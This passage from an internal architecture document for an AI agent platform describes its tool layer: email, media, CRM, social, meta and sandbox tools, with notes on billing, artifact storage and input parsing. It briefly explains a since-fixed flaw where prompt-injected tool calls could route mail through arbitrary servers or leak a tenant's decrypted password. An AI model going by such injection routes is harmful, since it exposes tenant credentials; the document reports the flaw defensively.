| `pptx_tool` | document | [documents/pptx_tool.py](../../backend/src/ai/tools/documents/pptx_tool.py) | create / read / update PowerPoint decks | `action`, `filename`, `title`, `slides[]`, `file_path` | `python-pptx` | ACTIVE | — |
| `excel_tool` | document | [documents/excel.py](../../backend/src/ai/tools/documents/excel.py) | `read_rows` / `get_columns` / `list_sheets` / `create` / `update` on xlsx and csv | `action`, `file_path`, `headers[]`, `data[][]`, `update_cells[]` | `openpyxl` | ACTIVE | — |
| `document_save` | document | [documents/document_save.py](../../backend/src/ai/tools/documents/document_save.py) | Copies a sandbox-produced file into artifact storage and registers it | `source_path`, `filename`, `format`, `purpose` | local disk | ACTIVE | — |

### 5.3 `email/` — 4 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `email_ingest` | email | [email/email_tool.py:148](../../backend/src/ai/tools/email/email_tool.py:148) | IMAP fetch of latest N emails, MIME parsed, HTML to markdown; records each sender as a subject of the run and returns its `contact_ref` | `email_address`, `count`, `unread_only` (no required fields) | IMAP over SSL | ACTIVE | — |
| `email_classify` | email | [email/email_tool.py:267](../../backend/src/ai/tools/email/email_tool.py:267) | Creates `AI-Classified/{category}` folder and moves the message | `uid`, `category`, `source_folder` | IMAP | ACTIVE | — |
| `email_draft` | email | [email/email_tool.py:364](../../backend/src/ai/tools/email/email_tool.py:364) | APPENDs a threaded reply into the Drafts folder, to a contact of the run | `original_message_id`, `draft_body`, `subject`, `to_ref` (raw `to` only with free recipients) | IMAP | ACTIVE | — |
| `email_send` | email | [email/email_tool.py:477](../../backend/src/ai/tools/email/email_tool.py:477) | SMTP send to the run's contacts with an optional file of the run, 18 MB cap | `subject`, `body`, `to_ref`, `cc_refs`, `bcc_refs`, `attachment_ref` (raw `to`/`cc`/`bcc` only with free recipients) | SMTP with STARTTLS | ACTIVE | — |

### 5.4 `media/` — 5 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `image_generation` | media | [media/image_generation.py](../../backend/src/ai/tools/media/image_generation.py) | Imagen / Gemini image generation via Vertex AI; bills itself | `model_name`, `prompt`, `reference_image_path` | Google Vertex AI | ACTIVE | `imagen-4.0-generate-001`, fixed `$0.04` |
| `video_generate` | media | [media/video/video_generate.py](../../backend/src/ai/tools/media/video/video_generate.py) | One Veo 3.1 clip, max 8 s | `model_name`, `prompt`, `length_seconds`, `is_audio_required`, `start_frame_path`, `end_frame_path` | Google Vertex AI Veo | EXPERIMENTAL | fixed `$0.05` |
| `video_edit` | media | [media/video/video_edit.py](../../backend/src/ai/tools/media/video/video_edit.py) | ffmpeg concat / trim / resize / transition / overlay / extend | `operation`, `inputs[]`, `output_path`, op params | ffmpeg via sandbox runtime | EXPERIMENTAL | `sandbox-runtime` seconds |
| `video_add_sound` | media | [media/video/video_add_sound.py](../../backend/src/ai/tools/media/video/video_add_sound.py) | Attach or mix an audio track onto a clip | `video_path`, `source` (file/tts/generated), `mode`, `gain`, `loop`, `fade` | ffmpeg via sandbox runtime | EXPERIMENTAL | `sandbox-runtime` seconds |

### 5.5 `sandbox/` — 3 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `sandbox_code` | execution | [sandbox/sandbox_executor.py](../../backend/src/ai/tools/sandbox/sandbox_executor.py) | Runs a Python or Bash snippet; what it writes to `$ARTIFACTS_DIR` is kept as artifacts | `language`, `code`, `timeout_s` | host subprocess or Docker | ACTIVE | `sandbox-runtime` seconds |
| `terminal` | execution | [sandbox/terminal_tool.py](../../backend/src/ai/tools/sandbox/terminal_tool.py) | `bash -c` with a destructive-command blocklist | `command`, `working_dir`, `timeout_s` | host subprocess or Docker | ACTIVE | `sandbox-runtime` seconds |
| `headless_browser` | browser | [sandbox/browser_tool.py](../../backend/src/ai/tools/sandbox/browser_tool.py) | Playwright Chromium: navigate / click / type / screenshot / get_text / evaluate | `action`, `url`, `selector`, `text`, `javascript`, `timeout_ms`, `wait_for` | Playwright Chromium | ACTIVE | `headless-browser` |

### 5.6 `crm/` — 4 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `get_current_datetime` | general | [crm/crm_tools.py:81](../../backend/src/ai/tools/crm/crm_tools.py:81) | Current date, time and weekday in IST | none | — | ACTIVE | — |
| `whatsapp_send_tenant` | general | [crm/crm_tools.py:120](../../backend/src/ai/tools/crm/crm_tools.py:120) | POSTs a WhatsApp message to the tenant's own WhatsApp endpoint, to a contact of the run | `message`, `to_ref` (raw `to` only with free recipients) | tenant HTTP API, provider `whatsapp_tenant` | ACTIVE | — |
| `google_calendar_create_event` | general | [crm/crm_tools.py:258](../../backend/src/ai/tools/crm/crm_tools.py:258) | Creates a calendar event for a site visit | `title`, `start_datetime`, `description`, `attendee_ref` | Google Calendar, service account or OAuth2 refresh | ACTIVE | — |
| `crm_update_lead` | general | [crm/crm_tools.py:445](../../backend/src/ai/tools/crm/crm_tools.py:445) | Writes call outcome and next action back to the tenant CRM, for the run's lead (id URL-quoted) | `call_outcome`, `summary`, `lead_ref` | tenant HTTP API, provider `crm_tenant` | ACTIVE | — |

### 5.7 `meta/` — 9 registered tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `meta_platform_introspect` | general | [meta/platform_introspect.py](../../backend/src/ai/tools/meta/platform_introspect.py) | Returns the platform capability schema: tools, models, step types, constraints | `mode` (`full`/`refresh`), `section` | Postgres, Redis cache | ACTIVE | — |
| `meta_registry_search` | general | [meta/registry_search.py](../../backend/src/ai/tools/meta/registry_search.py) | Ranks existing entities as REUSE / ADAPT / COMPOSE / CREATE candidates | `intent`, `required_tools[]`, `preferred_type`, `complexity_class`, `tags[]` | Postgres | ACTIVE | — |
| `meta_schema_validator` | general | [meta/schema_validator.py](../../backend/src/ai/tools/meta/schema_validator.py) | Validates a `HierarchicalEntityCreate` payload | `entity_payload` | — | ACTIVE | — |
| `meta_entity_creator` | general | [meta/entity_creator.py](../../backend/src/ai/tools/meta/entity_creator.py) | Creates or versions a `HierarchicalEntity` | `mode` (`CREATE`/`VERSION`), `entity_payload`, `source_entity_id`, `modifications`, `version_bump` | Postgres | ACTIVE | — |
| `meta_entity_executor` | general | [meta/entity_executor.py](../../backend/src/ai/tools/meta/entity_executor.py) | Test-runs a generated entity with a hard cost cap | `entity_id`, `test_input`, `max_cost_usd` (default `$0.50`, hard max `$1.00`) | full execution pipeline | ACTIVE | child run cost |
| `agent_introspect` | general | [meta/agent_introspect.py](../../backend/src/ai/tools/meta/agent_introspect.py) | Reports own budget, pressure, iteration, subgoals, rules, CORTEX viewport | `include_failures`, `failure_days` | Postgres | ACTIVE | — |
| `agent_reflect` | general | [meta/agent_reflect.py](../../backend/src/ai/tools/meta/agent_reflect.py) | Persists a structured learning as a CANDIDATE rule | `learning`, `kind`, `confidence` | Postgres | ACTIVE | — |
| `tool_synthesis` | general | [meta/tool_synthesis.py](../../backend/src/ai/tools/meta/tool_synthesis.py) | LLM writes a brand-new tool; validated, sandbox-tested, red-teamed, saved as DRAFT | a `ToolSpec` JSON payload (base `input` schema) | LLM plus sandbox | EXPERIMENTAL | LLM cost of the pipeline |
| `meta_spec_critic` | general | [meta/spec_critic.py](../../backend/src/ai/tools/meta/spec_critic.py) | Reviews a draft entity spec, returns PASS / REVISE / BLOCK | `mode`, `spec`, `search_top_k`, `platform_manifest_hash` | LLM | EXPERIMENTAL; registered since 2026-10-01 (TX-04). The Board's critic and the admin route also call it directly | LLM cost |

### 5.8 `social/` — one tool, `social_api`

| Tool id | File | What it does | Key parameters |
|---|---|---|---|
| `social_api` | [social/social_api.py](../../backend/src/ai/tools/social/social_api.py) | Runs one operation on a connected platform; `operation="describe"` lists a platform's operations and their parameters | `platform`, `operation`, `payload` |

Its 32 operations (§10) were 52 registered tools until P6.2 (2026-10-02). It is
`EXPERIMENTAL` (per-company opt-in `tools.experimental.social_api`) and has **no billing
SKU** — a social call costs the platform `$0` in HireBuddha's ledger even when it spends
the tenant's ad budget.

### 5.9 Tools that exist but are not in the global registry

| Class | File | Why it is not registered |
|---|---|---|
| `SandboxedSynthesizedTool` | [sandbox/synthesized_tool.py](../../backend/src/ai/tools/sandbox/synthesized_tool.py) | Created by the synthesis pipeline, registered tenant-scoped as DRAFT |

---

## 6. `core/` — search, scrape, calculate, write



**`web_search`** ([search.py](../../backend/src/ai/tools/core/search.py), 411
lines) is the most-used tool on the platform and the reference implementation of
the typed protocol. Points worth knowing:

- Its `_parse_query` accepts a bare string, a JSON object with any of
  `query` / `q` / `search` / `input` / `text`, or a JSON array — because the LLM
  supplies all of those shapes in practice.
- Queries longer than 500 characters are truncated with a warning that
  explicitly calls it "likely a prompt injection"
  ([search.py:92](../../backend/src/ai/tools/core/search.py:92)).
- The SerpAPI key is resolved per request from the integration registry by SKU
  `serp-api-key`, falling back to provider `serpapi`. There is **no** env-var
  fallback for the key.
- SerpAPI 429s get 3 retries at 2 s, 4 s, 8 s — this is the only real
  exponential backoff in the tool layer (see §15).

**`batch_web_search`** exists because a deep-research entity produces 10–25
queries at once. Its input parsing is a five-step ladder: raw JSON, then strip
markdown headers and code fences and retry, then regex-extract embedded JSON,
then a "narrative text" guard that rejects prose, then a short single-line
fallback. When it rejects the input it returns an instruction string telling the
LLM exactly what to send next — a deliberate self-healing prompt.

**`scraper_tool`** requires a Firecrawl key. If the company has none,
`ConfigService.get_api_key_by_provider` falls back to the APP company's key, so
Firecrawl is typically configured once system-wide. It accepts up to 10 URLs in
one call and recurses per URL.

**`file_writer`** forces the filename through `os.path.basename` and appends
`.md` unless the extension is one of `.txt .md .json .csv` — that is the whole
path-traversal defence.

---

## 7. `documents/` — the generation pipeline

There are two entirely different ways to produce a document, and both are live:



**`pdf_generator`** (746 lines) is the largest single tool and most of its size
is input rescue. `run_with_context` tries, in order: strip code fences, remove
trailing commas, `json.loads(strict=False)`, a hand-written control-character
escaper that walks the string tracking whether it is inside a JSON string, and
finally — if it is still not JSON — **treats the whole input as raw markdown**
and synthesises a title from the first `#` heading that is not step metadata
(skipping prefixes like `"wave "`, `"step "`, `"scrape"`, `"synthesize"`).

It then rewrites markdown image references to `file://` URIs so WeasyPrint can
embed them, resolving bare filenames by searching
`artifact/system-generated/{company}/{user}/images`, then
`{company}/images`, then `generated_images`, then a recursive glob.

**One write path (2026-10-02, TL-59).** Every tool that keeps a file — `file_writer`,
`document_save`, `docx_tool`, `pptx_tool`, `excel_tool`, `pdf_generator`,
`image_generation`, the three video tools and `headless_browser`'s screenshot — hands
the bytes to `artifact_service.save_tool_output(context, …)`. It writes the one copy
under `backend/artifact/system-generated/` and registers it with the `run_id`,
`agent_id` and `campaign_id` from the call's context, and the tool returns that stored
path and the `artifact_id`. Before, six tools wrote a first copy under
`backend/src/artifact/` (`parents[3]` from the tool file), registered a second copy,
mostly with no run, and returned the path of the unregistered one. A document
`update` now writes a new artifact and names the original in `updated_from`; it never
overwrites. Video working files are made in the tenant workspace (`videos/DATE/`) and
removed once registered. `documents/_keep.py` (`keep_document`) saves a python-docx,
python-pptx or openpyxl object through the same call. The run page asks
`GET /artifacts?run_id=` (the run and its child runs, by a recursive query over
`parent_run_id`) instead of matching regular expressions in step outputs (EP-21).

**`xlsx_engine.py`** (a 400-line themed spreadsheet library nothing imported) and
**`backend/templates/docx/`** (three theme templates no code referenced) were
deleted on 2026-10-01 (TL-26, TL-27). `docx_tool._create` starts from a blank
`Document()`; themed rendering, if wanted, belongs in a SKILL's assets (see the
[consolidated plan](defect-register/CONSOLIDATED-KERNEL-TOOLS-PLAN.md), R2).

---

## 8. `email/` — IMAP and SMTP

> **Since P6.11 (2026-10-02, TL-09) — subject refs.** Whom a tool writes to is the run's
> subject, not a value the model chose. `governance/subjects.py` derives a run tree's
> scope from what it stores: the root run's `input_data["subjects"]` (written by the API
> caller, by the gateway for a CRM event's lead or an e-mail's sender, by a voice call for
> its counterparty); for a run a tenant user started, the addresses in its input text
> (never a webhook's text — that is its sender's); the senders `email_ingest` read
> (`run_subjects`); and the files the tree made, or that were uploaded for its agents or
> given in its input. Contacts and leads get refs (`c_…`, `l_…`, a hash of the root run,
> kind and key); a file's ref is its artifact id. The loop shows the list to the model
> (`__subjects__`, prompt layer 9). `email_send`, `email_draft`, `whatsapp_send_tenant`,
> `google_calendar_create_event` and `crm_update_lead` — now typed — take refs, use the
> only one of a kind when the ref is omitted (a voice call's caller and lead), and refuse
> anything else with the scope's list. An entity with `governance.allow_free_recipients:
> true` may pass raw addresses. An attachment that is not a file of the run is refused;
> before, a missing one was dropped and the mail sent anyway.


> **Since P6.8 (2026-10-02, TL-57, TL-58).** The IMAP and SMTP work runs in
> `asyncio.to_thread` with a 30 s socket timeout (it blocked the worker's event loop, for
> as long as the OS TCP timeout when a server hung). `email_ingest` returns real UIDs
> (`UID SEARCH` / `UID FETCH`) — it returned sequence numbers labelled `uid`, which
> renumber after every expunge, so `email_classify` moved the wrong message from the
> second call on. `email_classify` moves with `UID MOVE`, or `UID COPY` + `UID STORE` +
> `UID EXPUNGE` where the server has no MOVE.



All four tools share one credential resolver,
[`_resolve_connection`](../../backend/src/ai/tools/email/email_tool.py:111),
which reads the `email_connections` table (see
[email_models.py](../../backend/src/ai/email_models.py)) and decrypts
`encrypted_app_password`. **Server, port, account and password come from that row
only** (since 2026-10-01, TL-04/TL-56): the model's `email_address` may pick which
of the company's connections to use, and an address with no row is refused. Before,
`params.get("smtp_host") or resolved.get("smtp_host")` — and the same for the IMAP
host, address and password — let a prompt-injected call send through any server,
or hand the tenant's decrypted password to one.

**There is no OAuth in the email tools.** The connection model stores
`encrypted_app_password` and `provider_type` (`gmail` / `outlook` / `custom`);
authentication is plain IMAP/SMTP `LOGIN` with an app password. Gmail requires
an App Password, which the `email_send` error message says explicitly. OAuth on
this platform exists only for social connections (§10) and for
`google_calendar_create_event`.

Provider-specific quirks are hardcoded by substring-matching the IMAP host:
Gmail gets a `[Gmail]/` folder prefix and `[Gmail]/Drafts`; everything else uses
`Drafts`.

`email_classify` implements "move" as COPY, then `STORE +FLAGS \\Deleted`, then
`EXPUNGE` — an expunge on the source folder. If the copy succeeds and the
expunge fails, you get a duplicate; if the process dies between them, the
original stays put.

`email_send` resolves an attachment from an `artifact_id`, refuses anything over
18 MB raw (base64 adds ~33%, Gmail's ceiling is 25 MB), and switches the MIME
container from `alternative` to `mixed` when there is an attachment.

---

## 9. `media/` — images and video



**`image_generation`** (407 lines) is the only tool that bills *itself*. Every
other tool is billed by the step executor after the fact. Inside
[image_generation.py:372](../../backend/src/ai/tools/media/image_generation.py:372)
it builds an `image_cost_map` (`imagen-4.0-generate-001` = `$0.04`,
`imagen-4-fast` = `$0.02`, `imagen-4-ultra` = `$0.06`), calls
`BillingService.record_billing_event(grouping_type="tool", ...)`, and then calls
`CreditService.consume`. Because the step executor *also* applies its
`TOOL_FIXED_COST["image_generation"] = $0.04`, a single image generation is
charged through two independent paths. See §18.

Model resolution is strict: no `model_name` means look up the company's
`text_to_image` task default; no Vertex `service_metadata.project_id` means a
hard error. There is no AI Studio / direct API-key path.

**The video split.** `video_generation` was one mega-tool. Phase 12 split it into
three so a planner can express "generate 3 clips, concat them, add narration" as
three inspectable steps with three separate cost lines. The old name's `DEPRECATED`
delegating shim was deleted on 2026-09-29 (PO-17): a clip longer than one segment is
now a plan of several `video_generate` calls joined by `video_edit`. `MAX_SEGMENT_SECONDS = 8`
([_support.py:24](../../backend/src/ai/tools/media/video/_support.py:24)) and
`calculate_segments` picks the largest legal segment sizes (8, 6, 5, 4).

All ffmpeg work goes through
[`_ffmpeg.run_ffmpeg`](../../backend/src/ai/tools/media/video/_ffmpeg.py), which
calls `run_sandbox_exec` — so ffmpeg runs in the tenant container when the
container runtime is on, and is metered as compute rather than as an LLM call.

---

## 10. `social/` — one primitive, 8 platforms

Since P6.2 (2026-10-02, R2 doc phase 3, decision D17) there is **one registered social
tool**, [`social_api`](../../backend/src/ai/tools/social/social_api.py):

```text
social_api(platform, operation, payload)
  operation = "describe"  ->  {"platform", "operations": [{"operation", "description", "writes", "parameters"}]}
  operation = <verb>       ->  the platform's result (JSON)
```

The model asks a platform what it can do, then calls one operation with its payload —
progressive disclosure inside the tool: one function declaration in the prompt instead of
up to 52. How to post, report or answer comments on a platform belongs in a SKILL's
instructions, not in schemas: the first-party SKILLs
([SeedSocialSkills](../../backend/scripts/seeds/default_entities/SeedSocialSkills/skills.py),
P6.3) are one per platform — `social-linkedin`, `social-twitter`, … — each granting only
`social_api`, telling the model to `describe` first, and carrying the platform's rules
(lengths, what needs a public URL, what never to enable). They are data: a company gets them
with `create_social_skills.py --company-id <uuid>`, and editing one is a new version, not a
deploy. A test holds every operation and parameter a SKILL names to the platform's real ones. `social_api` checks the payload against the
operation's schema (missing required fields, unknown fields) before anything is sent.
A refused or failed call names what is wrong and which operations or platforms exist.

The per-verb classes are its **operations**, not registered tools: each platform module
(`linkedin.py`, `twitter.py`, `facebook.py`, `instagram.py`, `google_ads.py`,
`youtube.py`, `tiktok.py`, `reddit.py`) holds `SocialMediaTool` subclasses; the
operation is the class's name without the platform prefix (`twitter_create_post` →
`twitter` / `create_post`). An operation whose verb is create, publish, upload, send,
save or manage is a **write** (`describe` says so); the resilience layer never re-runs
`social_api` (it is in `WRITE_TOOLS`).

**One platform list (D17).** The platforms are the keys of `PLATFORM_REFRESH_CONFIG`
([social_connection_service.py](../../backend/src/ai/social_connection_service.py)): the
connection API's `VALID_PLATFORMS` is that set, and `social_api` has operations for
exactly those (a test holds the three equal). Before P6.2 the connection API took 8
platforms and tools existed for 13, so the 20 tools of `pinterest`, `meta_ads`,
`linkedin_ads`, `linkedin_sales_navigator` and `snapchat_ads` could never get a
credential; they are deleted (git keeps them). A platform is added with its connection,
its refresh and its operations together.



### Platform capability and auth matrix

| Platform key | API base | Operations | Auth |
|---|---|---|---|
| `linkedin` | `api.linkedin.com/rest` | create_post, get_analytics, manage_comments, get_profile | OAuth2 bearer |
| `twitter` | `api.x.com/2` | create_post, search, get_mentions, get_analytics | OAuth2 bearer |
| `facebook` | `graph.facebook.com/v22.0` | create_post, get_insights, manage_comments, send_message | OAuth2 page token, `fb_exchange_token` refresh |
| `instagram` | Facebook Graph | publish_media, get_insights, manage_comments, discover_hashtags | OAuth2 via Facebook, `ig_refresh_token` |
| `google_ads` | `googleads.googleapis.com/v18` | create_campaign, report, manage_keywords, get_ad_groups | OAuth2 refresh token |
| `youtube` | `googleapis.com/youtube/v3` | upload_video, manage_playlists, get_analytics, manage_comments | OAuth2 refresh token |
| `tiktok` | `open.tiktokapis.com/v2` | publish_video, get_videos, get_analytics, manage_comments | OAuth2 |
| `reddit` | `oauth.reddit.com` | create_post, search, manage_comments, get_analytics | OAuth2 |

None is wired to a production entity. Since P6.6 (2026-10-02) the operations that reported
success they did not have are repaired or narrowed: `youtube/upload_video` uploads the bytes
through a resumable session (TL-43); `tiktok/publish_video` waits for TikTok's publish status
(TL-44); `instagram/publish_media` waits for a video container to finish encoding (TL-45);
`linkedin/create_post` no longer advertises `image_url`, and `get_analytics` no longer
`time_range` (TL-47); the LinkedIn API version is one setting, `LINKEDIN_API_VERSION`
(TL-48); `google_ads/create_campaign` creates budget and campaign in one atomic mutate
(TL-49). Eight platforms were deleted in all: `quora`, `x_ads` and `youtube_ads` on
2026-10-01 because they could not work as written (TL-23–TL-25), and the five above in
P6.2.

---

## 11. `crm/` — the tenant CRM bridge



These four tools exist for one workflow: a real-estate voice agent that answers
a call, offers a site-visit slot, books it, WhatsApps a confirmation, and writes
the outcome back to the tenant's CRM. See
[12 — Voice & telephony](12-voice-and-telephony.md) for the calling side.

The whole file (592 lines) shares one helper,
[`_resolve_integration(company_id, provider_name)`](../../backend/src/ai/tools/crm/crm_tools.py:32),
which reads an active `IntegrationRegistry` row and decrypts
`encrypted_api_key`. The tenant's WhatsApp URL and CRM URL live in that row's
`service_metadata` JSON — so these tools call whatever HTTP endpoint the tenant
configured. `google_calendar_create_event` supports both a service account and
an OAuth2 refresh-token flow.

`get_current_datetime` is hardcoded to IST (`UTC+05:30`,
[crm_tools.py:25](../../backend/src/ai/tools/crm/crm_tools.py:25)). It is not
tenant-timezone aware.

---

## 12. `sandbox/` — code, terminal, browser and the trust boundary

This is the highest-risk part of the tool layer: it executes LLM-authored code.

### 12.1 The runtime abstraction

Phase 12 introduced a `SandboxRuntime` Protocol
([sandbox/runtime.py:113](../../backend/src/ai/tools/sandbox/runtime.py:113)) so
the execution substrate can be swapped without touching tool code. There are two
implementations.

